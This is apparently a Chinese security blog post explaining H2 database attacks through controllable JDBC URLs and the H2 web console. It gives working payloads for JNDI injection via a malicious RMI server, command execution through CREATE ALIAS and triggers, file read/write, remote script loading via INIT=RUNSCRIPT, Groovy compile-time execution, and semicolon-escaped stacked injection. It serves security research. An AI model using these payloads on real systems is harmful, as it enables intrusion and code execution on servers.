

# 0x00 Preface

JDBC是JDK提供的一个用于连接数据库的接口(Java DataBase Connectivity)，各个数据库厂商(MySQL、Oracle、SQLServer)负责编写自己的JDBC实现类，再把这些实现类打包为驱动jar包，我们使用JDBC的接口编程，背后调用的实则是实现类里的方法。

常见的JDBC使用方法是在配置文件中写好JDBC引擎、连接数据库的URL、账户、密码

```java
String JDBC_URL = "jdbc:mysql://localhost:3306/test";  //test数据库
String JDBC_USER = "root";
String JDBC_PASSWORD = "password";
// 建立连接
Connection conn = DriverManager.getConnection(JDBC_URL, JDBC_USER,
JDBC_PASSWORD);
// TODO: 访问数据库
// 关闭连接
conn.close();
```

之前在学MySQL的JDBC攻击手法就有这个疑惑了，JDBC连接的URL怎么能够让用户控制得到呢?实际在一些场景中，比如后台修改数据库配置、测试数据库连接中，管理员就可以控制JDBC的连接URL。因此这类漏洞主要是在后台管理(当然第一步得攻进后台，未授权、弱密钥、逻辑漏洞等等等)。本文介绍h2 database的相关漏洞

H2是一个用Java编写的数据库，支持内存(有点像sqlite)、文件等模式，只有一个jar文件，适合作为嵌入式数据库使用。主要用于单元测试。H2提供了一个web控制台用于操作和管理数据库。

# 0x01 Getting Started in h2

h2 database console可以整合到SpringBoot中，也可以独立启动(其内置了一个WebServer)

H2支持运行三种模式：

Embedded(嵌入式)->无需配置本地/远程数据库; 数据库连接关闭时, 数据与表结构依然存在;

In-Memory(内存模式)->无需配置本地/远程数据库, 但数据库连接关闭时，数据与表结构丢失;

ServerMode(传统模式)->需要配置本地/远程数据库;

## jar启动

在[官网](http://www.h2database.com/html/cheatSheet.html)下载jar包，调用里面的`org.h2.tools.Server`类

`java -cp .\h2-2.2.220.jar org.h2.tools.Server -help`



`java -cp .\h2-2.2.220.jar org.h2.tools.Server -web -webAllowOthers`

启动Web console，默认监听8082端口

H2的Web console不仅可以连接H2数据库，也可以连接其他支持JDBC API的数据库


H2数据库默认用户名为sa、密码为空


## Springboot整合

引入pom依赖

```xml
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
</dependency>

<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-data-jpa</artifactId>
</dependency>

<dependency>
    <groupId>org.projectlombok</groupId>
    <artifactId>lombok</artifactId>
</dependency>
```

在`application.properties`中添加h2连接的配置

```xml
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.url=jdbc:h2:mem:test
spring.datasource.username=sa
spring.datasource.password=

spring.h2.console.enabled=true
spring.h2.console.path=/h2
spring.h2.console.settings.trace=false
spring.h2.console.settings.web-allow-others=true
```

注意这里springboot可以修改h2 console的访问路径，若未配置此项默认为`h2-console`

简单写个demo

```java
package com.demo.h2.Entity;

import lombok.Data;
import javax.persistence.*;

@Entity
@Table(name = "t_user")
@Data
public class User {
    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;
    private String name;
    private int age;

    @Override
    public String toString() {
        return "User{" +
                "id=" + id +
                ", name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

```java
package com.demo.h2.repository;

import com.demo.h2.Entity.User;
import org.springframework.data.jpa.repository.JpaRepository;

public interface UserRepository extends JpaRepository<User, Integer> {}
```

```java
package com.demo.h2.controller;

import com.demo.h2.Entity.User;
import com.demo.h2.repository.UserRepository;
import lombok.extern.slf4j.Slf4j;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.util.Assert;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

@Slf4j
@RestController
public class HelloController {
    @Autowired
    private UserRepository userRepository;

    @GetMapping("/user/create")
    public String createUser(){
        User user = new User();
        user.setName("taco");
        user.setAge(18);
        User result = userRepository.save(user);
        Assert.notNull(user.getId(), "Id Is Null");
        return result.toString();
    }
}
```

访问`/user/create`创建用户

访问`/h2`控制台


# 0x02 h2 JNDI

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.createRegistry(8025);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','touch /tmp/h2-jndi-success']).start()\")"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        r.bind("evil",referenceWrapper);
        System.out.println("running");
    }
}
```


高版本的H2只允许JNDI lookup的URL以java开头


翻了一下H2的函数文档，发现一处可能造成JNDI注入的。`LINK_SCHEMA`

http://www.h2database.com/html/functions.html#link_schema


```
SELECT * FROM LINK_SCHEMA('p4d0rn', 'javax.naming.InitialContext', 'rmi://127.0.0.1:8025/evil', 'p4d0rn', 'p4d0rn', 'PUBLIC');
```

同样高版本对URL进行了限制，只允许java开头

# 0x03 h2 RCE

JNDI注入受到不出网的限制，能否直接执行命令呢

## UDF执行

* `CREATE ALIAS`

自定义函数

创建一个shell函数并调用

```sql
DROP ALIAS IF EXISTS shell;
CREATE ALIAS shell AS $$void shell(String s) throws Exception {
	java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT shell('cmd /c calc');
```

h2中两个`$`表示无需转义的长字符串


返回执行结果:

```sql
CREATE ALIAS SHELLEXEC AS $$String shellexec(String cmd) throws java.io.IOException{
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); 
	return s.hasNext() ? s.next() : ""; 
}$$;

CALL SHELLEXEC('whoami');
```


### 坑：lombok编译之殇

项目中使用了lombok，导致H2动态编译的类无法加载。换成高版本的H2就可以了（一开始还以为是低版本无法用户自定义函数。。。）

下面看一下用户自定义函数的过程🙄

运行如下SQL

```sql
CREATE ALIAS PRINT AS $$ void print(String s) {
    System.out.println(s); } $$;
```

`org.h2.command.ddl.CreateFunctionAlias#update`


跟进`FunctionAlias#newInstanceFromSource`


跟进`init`，注释说会尝试编译类，接着进入`loadFromSource`


将别名和`org.h2.dynamic`进行拼接，得到一个全类名


下面的`compilier.setSource`就是把全类名和自定义函数的代码放入一个source成员(一个键值均为String的HashMap)

接着试图加载这个拼接的全类名，并获取第一个公开的静态方法，且不以`_`或`main`开头


进入`getClass`


从`compiled`编译过的类中尝试获取，然后自定义了一个`Classloader`类加载器，重写了`findClass`方法


`getCompleteSourceCode`构造出完整的一个类的代码(首行声明包名、类声明、方法加上public、static修饰符)


回退到`findClass`，跟进`javaxToolsJavac`用于编译、加载类


用了lombok这里机会产生错误信息，进入`handleSyntaxError`报错

对比高版本的H2，`handleSyntaxError`多传了一个参数，若第二个参数是0则直接返回，不进行语法错误处理

`handleSyntaxError*(output, (ok? 0: 1));`

那如果遇上目标用了lombok还是H2低版本呢?只能考虑调用目标本地的静态公开方法

如`com.sun.org.apache.xml.internal.security.utils.JavaUtils`有两个读写文件的静态公开方法

```sql
CREATE ALIAS read FOR 'com.sun.org.apache.xml.internal.security.utils.JavaUtils.getBytesFromFile';
SELECT read('E:/flag.txt');
```


读出来的结果为byte数组，还得转为字符串

```java
byte[] bytes = {0x68, 0x65, 0x72, 0x65, 0x20, 0x69, 0x73, 0x20, 0x6d, 0x79, 0x20, 0x66, 0x6c, 0x61, 0x67};
System.out.println(new String(bytes));  // 打印here is my flag
```

虽然`writeBytesToFilename`第二个参数要求为byte数组，但传字符串也行，H2能够自动转换。或者在十六进制字符串前面加个X。

```sql
CREATE ALIAS write FOR 'com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename';
SELECT write('E:/success.txt', 'Arbitrary File Write');
SELECT write('E:/wirte_hex.txt', X'68657265206973206d7920666c6167')
```


当然还有其他静态方法可以利用，比如

* `java.sql.DriverManager#getConnection` 连接恶意MySQL服务器
* `javax.naming.InitialContext#doLookup` JNDI注入
* `com.alibaba.fastjson.JSON#parseObject` FastJson反序列化
* `org.springframework.util.SerializationUtils.deserialize` 二次反序列化

咳咳，扯远了，继续回到H2 RCE。

## js执行

* `CREATE TRIGGER`

这个命令稍微麻烦一点，利用的是触发器，即增删改时会触发一些动作，需要新建一张表，或者需要有已知表。

下面上网上流传的poc

```sql
CREATE TABLE hack (
     id INT NOT NULL
);

CREATE TRIGGER TRIG_JS AFTER INSERT ON hack AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc");';
 
INSERT INTO hack VALUES (1);
```

但实际上创建触发器时那段js代码就被执行了，后面插入数据也没有执行

好在这句创建触发器的语句可以多次执行(因为根本没创建成功)

为什么呢？因为这段js代码本意是用来返回一个`Trigger`对象的

查看官方文档https://www.h2database.com/html/commands.html#create_trigger

> The trigger class must be public and implement `org.h2.api.Trigger`. Inner classes are not supported. The class must be available in the classpath of the database engine (when using the server mode, it must be in the classpath of the server).
>
> The sourceCodeString must define a single method with no parameters that returns `org.h2.api.Trigger`. See `CREATE ALIAS` for requirements regarding the compilation. Alternatively, javax.script.ScriptEngineManager can be used to create an instance of `org.h2.api.Trigger`. Currently javascript (included in every `JRE`) and ruby (with `JRuby`) are supported. In that case the source must begin respectively with `//javascript` or `#ruby`.
>
> Example:
>
> CREATE TRIGGER TRIG_INS BEFORE INSERT ON TEST FOR EACH ROW CALL 'MyTrigger';
>
> CREATE TRIGGER TRIG_SRC BEFORE INSERT ON TEST AS
>   'org.h2.api.Trigger create() { return new MyTrigger("constructorParam"); }';
>
> CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
> return new Packages.MyTrigger("constructorParam");';
>
> CREATE TRIGGER TRIG_RUBY BEFORE INSERT ON TEST AS '#ruby
> Java::MyPackage::MyTrigger.new("constructorParam")';

可以用`javax.script.ScriptEngineManager`来创建一个`org.h2.api.Trigger`实例

`org.h2.schema.TriggerObject#loadFromSource`


判断是否为js或ruby脚本


简单判断是否以`//javascript`开头


然后就是经典的`new ScriptEngineManager().getEngineByName("javascript")`


返回`CompiledScript`调用其`eval`

低版本H2(1.4.200之前)貌似不支持js脚本，没有`isJavascriptSource`这段代码

## 出网利用——init+runscript

上面这些操作的利用前提都是h2 console成功连接到数据库。

低版本H2(`1.4.193`左右)当连接的数据库不存在时会自动创建，但高版本就不行了

会报错`Database "mem:test" not found.either pre-create it or allow remote database creation`

要么连接Springboot中`spring.datasource.url`指明的数据库，要么需要启动console时带上`-ifNotExists`参数

因此能否不连接进去就能执行命令呢?

h2数据库的JDBC URL中支持的一个配置`INIT`

这个参数表示在连接h2数据库时，会执行一条初始化命令。不过只支持执行一条命令，而且不能包含分号`;` 

上面`CREATE ALIAS`用于命令执行的SQL语句都不止一条。可以利用`RUNSCRIPT`命令。`RUNSCRIPT`用于执行一个SQL文件

```
jdbc:h2:mem:test;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/evil.sql'
```

这个方法能用在任何能配置JDBC URL且依赖了H2的地方


(URL远程加载)

## 不出网利用——init+groovy

JDBC连接时`INIT`只允许执行一条SQL命令，而我们的命令执行有两句，一句创建UDF，一句执行UDF

除非有已知表，使用`CREATE TRIGGER`就只需一句。实际上可以利用H2的系统表，H2和MySQL一样也有`INFORMATION_SCHEMA`

> The system tables and views in the schema `INFORMATION_SCHEMA` contain the meta data of all tables, views, domains, and other objects in the database as well as the current settings.

```
jdbc:h2:mem:test;init=CREATE TRIGGER TRIG_JS AFTER INSERT ON INFORMATION_SCHEMA.TABLES AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc")'
```

需要注意的是，H2提取URL中的配置时是通过分割分号`;`来提取的，~~因此JS代码中不能有分号，否则会报错~~（可以加上反斜杠代表转义）


若目标环境有`Groovy`依赖，可以使用元编程的技巧来命令执行，在编译`Groovy`语句而非执行时就执行攻击者的代码。

添加`groovy-sql`依赖

```xml
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-sql</artifactId>
    <version>3.0.8</version>
</dependency>
```

```sql
jdbc:h2:mem:test;init=CREATE ALIAS shell2 AS
$$@groovy.transform.ASTTest(value={
assert java.lang.Runtime.getRuntime().exec("cmd.exe /c calc.exe")
})
def x$$
```

## SQLI 2 RCE

`INIT`参数可以直接在连接数据库时执行初始化的sql语句

除了`INIT`参数，一些参数在连接数据库时会执行SET命令，存在SQL注入

比如`TRACE_LEVEL_SYSTEM_OUT`、`TRACE_MAX_FILE_SIZE`......


`org.h2.engine.Engine#openSession`会对我们传入的参数进行`SET`语句拼接


开始尝试堆叠注入

### 坑：semicolon分割之痛

```
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;CREATE TRIGGER TRIG_JS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc")$$--
```

这个payload并不能打通，还得看它是怎么提取setting参数的

`org.h2.engine.ConnectionInfo#readSettingsFromURL` 这个类用于存储连接信息


问题就出在这，我们用于堆叠注入的分号`;`，同时也是H2用来提取设置参数的分隔符。。。🥲

但要是settings的值本来就存在分号怎么办，照理是会提供转义的，跟进`StringUtils.arraySplit`一探究竟


果然是支持反斜杠转义的。因此在payload中分号前面加上`\`即可

```
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=1\;CREATE TRIGGER TRIG_JS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
Java.type("java.lang.Runtime").getRuntime().exec("calc")$$--
```

# 0x04 Recap

本文简单介绍了H2的JDBC攻击方法，在JDBC URL可控的情况下（不局限于h2 web console）

* JNDI注入（高版本限制了只能是java协议）
* 利用init参数执行`RUNSCRIPT`命令加载执行远程恶意SQL
* 利用init参数直接执行`groovy`元编程代码（不出网）
* 利用其他连接参数进行堆叠注入

当然若能直接连接上去，就能直接UDF命令执行了。

而对于h2 web console，利用方式会受到一些限制：

* 需要开启`-webAllowOthers`选项，支持外部连接
* 需要开启`-ifNotExists`选项，支持创建数据库
